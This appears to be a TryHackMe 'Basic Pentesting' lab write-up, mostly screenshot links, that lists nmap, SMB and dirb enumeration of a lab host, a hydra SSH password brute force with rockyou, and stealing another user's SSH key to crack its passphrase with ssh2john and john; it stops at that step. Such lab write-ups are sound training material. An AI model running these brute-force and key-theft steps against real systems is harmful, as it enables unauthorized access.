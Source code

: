# Basic Pentesting box writeup from tryhackme

## Step 1 : Nmap scan 
nmap -sC -sV -oN scan1 -vv 10.10.180.237

![Screenshot at 2021-07-07 13-56-35](https://user-images.githubusercontent.com/12968503/124764735-2d367c80-df2d-11eb-9e2c-a4d3bcb96cf7.png)

![image](https://user-images.githubusercontent.com/12968503/124765439-ded5ad80-df2d-11eb-936c-aab84e9d6d1d.png)

![image](https://user-images.githubusercontent.com/12968503/124765613-0c225b80-df2e-11eb-84fa-bb614ba38390.png)

![image](https://user-images.githubusercontent.com/12968503/124765842-4a1f7f80-df2e-11eb-9ef8-a465421284b1.png)

![image](https://user-images.githubusercontent.com/12968503/124766185-966abf80-df2e-11eb-88ad-da200a37722b.png)

![image](https://user-images.githubusercontent.com/12968503/124766382-c619c780-df2e-11eb-9bca-dcae3e5f1b61.png)

![image](https://user-images.githubusercontent.com/12968503/124766503-e3e72c80-df2e-11eb-8e1f-3930269d2e76.png)

## Step 2:  SMB Enum
_./smbmap.py -H 10.10.180.237_  

![image](https://user-images.githubusercontent.com/12968503/124768569-af747000-df30-11eb-9c89-b83528b1e707.png)

_smbclient -L 10.10.180.237_  

![image](https://user-images.githubusercontent.com/12968503/124768765-daf75a80-df30-11eb-82dd-f598d8e4f15d.png)

_smbclient //10.10.180.237/Anonymous_  

![image](https://user-images.githubusercontent.com/12968503/124768951-fd897380-df30-11eb-9f9a-ae2e89bcf70e.png)

Found a staff.txt on the Anon share

![image](https://user-images.githubusercontent.com/12968503/124767676-eeee8c80-df2f-11eb-83d0-47018270a5f2.png)

Known users: Kay and Jan

## Step 3: Web Enum

![image](https://user-images.githubusercontent.com/12968503/124769381-5527df00-df31-11eb-81e6-8537f3f30421.png)

### Time to dirb

_dirb http://10.10.180.237_

![image](https://user-images.githubusercontent.com/12968503/124769728-9ddf9800-df31-11eb-9a3b-5a8474773052.png)

Found development page

![image](https://user-images.githubusercontent.com/12968503/124769966-d7b09e80-df31-11eb-8ddd-f167c59e37a0.png)

Dev.txt

![image](https://user-images.githubusercontent.com/12968503/124770061-eb5c0500-df31-11eb-9d69-dd227954dbb4.png)

J.txt

![image](https://user-images.githubusercontent.com/12968503/124770226-13e3ff00-df32-11eb-9e19-116c9918f3e3.png)

Jan has a weak password?

## Step 3: Cracking Jan's password

_hydra -t 4 -l jan -P /usr/share/wordlists/rockyou.txt -vV 10.10.180.237 ssh_

## Step 4: Login to SSH as Jan

Look in kay's directory for the ssh keys and grab them.

Can't use them to log in yet because they have a passphrase, so use ssh2john

Save the hash to a text file and use it with john to obtain the passphrase.

